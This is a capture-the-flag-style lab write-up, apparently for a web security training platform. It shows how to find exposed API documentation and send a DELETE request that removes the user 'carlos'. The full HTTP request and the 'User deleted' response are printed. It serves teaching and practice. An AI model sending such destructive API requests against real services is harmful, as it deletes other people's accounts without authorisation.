




# Lab: Exploiting an API endpoint using documentation
To solve the lab, find the exposed API documentation and delete `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

#### Required knowledge

To solve this lab, you'll need to know:

- What API documentation is.
- How API documentation may be useful to an attacker.
- How to discover API documentation.

These points are covered in our API Testing Academy topic.

# Solution
Start by accessing the account page to get a first look.  



When accessing the ```/my-account``` endpoint an endpoint for the API is discovered in both Burpsuite target tab and the HTML of the site.  






Accessing the ```/api``` endpoint the documentation for the API is presented.  



To delete a user a ```DELETE``` request should be sent to the ```/user/[username]``` endpoint. To delete the ```carlos``` user, send a request to ```/user/carlos`

```http
DELETE /api/user/carlos HTTP/2
Host: 0a22009a04b49fc98152bdf7006a00d2.web-security-academy.net
Cookie: session=kMvpWotOP5NKOeUUrzigoMNjema8E8SJ
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 25

{"status":"User deleted"}
```


